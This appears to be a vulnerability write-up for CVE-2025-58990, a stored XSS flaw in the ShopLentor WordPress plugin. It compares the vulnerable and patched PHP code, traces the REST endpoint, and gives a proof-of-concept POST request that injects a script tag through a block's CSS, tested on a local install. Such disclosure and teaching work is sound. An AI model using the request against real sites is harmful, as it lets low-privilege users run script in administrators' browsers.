









<!--more-->

A vulnerability in the **ShopLentor** plugin prior to version **3.2.0** allows an attacker with **contributor** privileges to inject malicious code into a block's CSS. This CSS is then loaded inline into the page and can lead to Stored XSS when previewed or rendered in a browser.

* **CVE ID**: [CVE-2025-58990](https://www.cve.org/CVERecord?id=CVE-2025-58990)
* **Product**: [WordPress ShopLentor Plugin](https://wordpress.org/plugins/woolentor-addons/)
* **Vulnerability Type**: Cross Site Scripting
* **Affected Versions**: <= 3.2.0
* **CVSS severity**: Low (6.5)
* **Required Privilege**: Contributor

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **ShopLentor**: v3.2.0 (vulnerable) and v3.2.1 (fixed)
* **diff tool**: **meld** or any tool capable of comparing the two versions to see differences
* **Activated WooCommerce plugin**: WooCommerce must be **activated** before installing the **ShopLentor Plugin**

## Analysis

### Patch Diff

Use any diff tool to compare differences between the vulnerable and fixed versions.
The notable difference is in the file **woolentor-blocks/includes/classes/Manage_Styles.php**.

**Vulnerable version**:

```php
public function save_block_css( $request ){
    $params 	= $request->get_params();
    $post_id = sanitize_text_field( $params['post_id'] );

    // No user permission check
    // No sanitization of CSS before saving
    update_post_meta( $post_id, '_woolentor_css', $params['block_css'] );
    $wp_filesystem->put_contents( $dirname . $filename, $params['block_css'] );
}
```

**Fixed version**:

```php
public function save_block_css( $request ){
    $params 	= $request->get_params();
    $post_id = sanitize_text_field( $params['post_id'] );

    // Only admin or the post author are allowed
    $post = get_post( $post_id );
    if ( ! $post || ( ! current_user_can('manage_options') &&
        get_current_user_id() !== (int) $post->post_author ) ) {
        return ['success' => false, 'message' => __('No permission')];
    }

    // Sanitize data before saving
    $block_css = $this->sanitize_css_content( $params['block_css'] );
    update_post_meta( $post_id, '_woolentor_css', $block_css );
    $wp_filesystem->put_contents( $dirname . $filename, $block_css );
}
```

The patch uses `current_user_can('manage_options')` to check for **admin** privileges:

* If the user is **admin** => the first part `! current_user_can('manage_options') = false` => the whole `&&` expression is false => passes.
* If the user is the **author** => the latter part `get_current_user_id() !== (int) $post->post_author = false` => the whole `&&` expression is false => passes.



### How It Works

```php
public function save_block_css( $request ){
    try{
        global $wp_filesystem;
        if ( ! $wp_filesystem || !function_exists('WP_Filesystem') ) {
            require_once( ABSPATH . 'wp-admin/includes/file.php' );
        }

        $params 	= $request->get_params();
        $post_id 	= sanitize_text_field( $params['post_id'] );
        
        if ( $post_id == 'woolentor-widget' && $params['has_block'] ) {
            update_option( $post_id, $params['block_css'] );
            return [
                'success' => true, 
                'message' => __('Widget CSS Saved.', 'woolentor')
            ];
        }

        $filename 		= "woolentor-css-{$post_id}.css";
        $upload_dir_url = wp_upload_dir();
        $dirname 		= trailingslashit( $upload_dir_url['basedir'] ) . 'woolentor-addons/';

        if ( $params['has_block'] ) {
            update_post_meta( $post_id, '_woolentor_active', 'yes' );
            $all_block_css = $params['block_css'];

            WP_Filesystem( false, $upload_dir_url['basedir'], true );
            if( ! $wp_filesystem->is_dir( $dirname ) ) {
                $wp_filesystem->mkdir( $dirname );
            }

            update_post_meta( $post_id, '_woolentor_css', $all_block_css );
            if ( ! $wp_filesystem->put_contents( $dirname . $filename, $all_block_css ) ) {
                throw new \Exception( __('You are not permitted to save CSS.', 'woolentor' ) ); 
            }
            return [
                'success' => true,
                'message' =>__('WooLentor Blocks css file update.', 'woolentor' )
            ];
        } else {
            delete_post_meta( $post_id, '_woolentor_active' );
            if ( file_exists( $dirname.$filename ) ) {
                wp_delete_file( $dirname.$filename );
            }
            delete_post_meta( $post_id, '_woolentor_css' );
            return [
                'success' => true,
                'message' => __('WooLentor Blocks CSS Delete.', 'woolentor' )
            ];
        }
    } catch( \Exception $e ){
        return [
            'success' => false,
            'message' => $e->getMessage()
        ];
    }
}
```

The `save_block_css()` function in the `Manage_Styles` class is responsible for saving or deleting the block CSS.

The application retrieves `post_id` and `block_css` from the request.

**Special case**: if `post_id == 'woolentor-widget'` => the CSS is saved to `wp_options`.

**Normal post case**:

* If there is a block (`has_block = true`):

  * Mark the post as active (`_woolentor_active`).
  * Save the CSS into the `wp_postmeta` table with `meta_key = _woolentor_css`.

  ```sql
  mysql> select * from wp_postmeta where meta_key='_woolentor_css';
  +---------+---------+----------------+------------+
  | meta_id | post_id | meta_key       | meta_value |
  +---------+---------+----------------+------------+
  |      27 |      69 | _woolentor_css | body:{}    |
  |     687 |    1416 | _woolentor_css | body:{}    |
  +---------+---------+----------------+------------+
  ```

  * Write the CSS file into the uploads directory (`woolentor-css-{post_id}.css`).

  

* If there is no block (`has_block = false`):

  * Remove the active flag and CSS meta.
  * Delete the CSS file if it exists.

👉 The likely attack scenario is a typical **Stored XSS**: a user with role **contributor** (who cannot publish) creates a post and injects an XSS payload into the block CSS. The payload is stored in the **database** or a **file**; a higher-privileged user previews the content before publishing, the payload is loaded/rendered in the browser and executes, causing XSS.

To understand how the data is rendered, search the plugin for `_woolentor_css`. Since CSS is stored in `wp_postmeta` under the `meta_key = _woolentor_css`, the plugin will query this value and insert it directly into HTML.



`generate_inline_css()` fetches block CSS from **wp_postmeta** with `meta_key = _woolentor_css` and from the file `woolentor-css-{$post_id}.css` — if the file exists it calls `get_contents` and inlines the CSS for the post with the given `$post_id`; otherwise it falls back to **wp_postmeta**.

The content is placed inside a `<style type="text/css"></style>` tag.

The `Manage_Styles` class registers a **REST API** route in the `register_routes` function:

```php
public function register_routes( $namespace ){
    register_rest_route( $namespace, 'save_css',
        [
            [
                'methods'  => 'POST', 
                'callback' => [ $this, 'save_block_css' ],
                'permission_callback' => [ $this, 'permission_check' ],
                'args' => []
            ]
        ]
    );
    // other route
}
```

`register_rest_route()` creates a **REST API** endpoint at:

```
/wp-json/{namespace}/save_css
```

When a **POST** request is made to this endpoint:

* WordPress calls `save_block_css()` to handle the data.
* Before that, `permission_callback` runs `permission_check()` to verify user permissions (if it returns false, the request is denied).

```php
public function permission_check() {
    if( current_user_can( 'edit_posts' ) ){
        return true;
    }else{
        return false;
    }
}
```

`permission_check` specifies that only users with at least **contributor** privileges can use this API.

We haven't identified the exact **namespace** here because it is declared elsewhere in the source. We trace using the `save_css` route.

Access `/wp-json/` and search for `save_css`.



The results show the actual endpoint:

```http
http://localhost/wp-json/woolentor/v1/save_css
```

To find where this **namespace** is declared, search the source for `'woolentor/v1'`:



There are multiple results, but since we're analyzing the **REST API** feature, focus on the **Api.php** file.

`register_routes( $namespace )` in `Manage_Styles` requires the `$namespace` parameter, so `woolentor/v1` is likely passed in by the class instantiation in Api.php. Search for `Manage_Styles` in Api.php to confirm.



The namespace is indeed called and passed that way.

👉 Therefore, sending a **POST** to `http://localhost/wp-json/woolentor/v1/save_css` will invoke the `save_block_css` callback to add/update block CSS in the file and database. When visiting a post whose `post_id` has saved block CSS, `generate_inline_css` will retrieve the block CSS and inline it inside a `<style type="text/css"></style>` tag in the post.

## Exploit

### Detect XSS

Use a user with the **contributor** role to create any post and note its ID.

Send a **POST** request to `http://localhost/wp-json/woolentor/v1/save_css` with an XSS payload:

```http
POST /wp-json/woolentor/v1/save_css HTTP/1.1
Host: localhost
Content-Type: application/json

{
"post_id":1416,
"has_block":true,
"block_css":"</style><script>alert(document.domain)</script><style>"
}
```

**Response**

```json
{
    "code":"rest_forbidden",
    "message":"Sorry, you are not allowed to do that.",
    "data":{
        "status":401
    }
}
```

👉 The **X-WP-Nonce** header is missing for user authorization. Open the page source (<kbd>Ctrl</kbd>+<kbd>U</kbd>) of the post edit page:

```
view-source:http://localhost/wp-admin/post.php?post=<post_id>&action=edit
```

Search for `wpApiSettings` in the source and extract the `nonce` value.



Send the request including the **X-WP-Nonce** header with the obtained value:

```http
POST /wp-json/woolentor/v1/save_css HTTP/1.1
Host: localhost
X-WP-Nonce: f79ec79e4b
Content-Type: application/json

{
"post_id":1416,
"has_block":true,
"block_css":"</style><script>alert(document.domain)</script><style>"
}
```

**Preview post**



👉 XSS succeeds. Inspect to see how the code was modified.

**View source code**



## Conclusion

The **CVE-2025-58990** vulnerability in **ShopLentor <= 3.2.0** allows a **contributor** to inject malicious CSS leading to Stored XSS when an admin/author previews or views the post. The **3.2.1** patch adds permission checks and CSS sanitization to prevent exploitation.

**Key takeaways**:

* Always combine **permission checks** and **input sanitization** when handling user-submitted data.
* Low-privilege roles (like **contributor**) can still be an attack vector if APIs are not properly protected.
* **Stored XSS** in WordPress commonly occurs when data saved to DB/files is rendered inline without sanitization.
* Timely plugin updates are a simple and effective mitigation.

## References

[Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

[ WordPress ShopLentor Plugin <= 3.2.0 is vulnerable to Cross Site Scripting (XSS) ](https://patchstack.com/database/wordpress/plugin/ShopLentor/vulnerability/wordpress-ShopLentor-plugin-1-0-5-cross-site-scripting-xss-vulnerability)
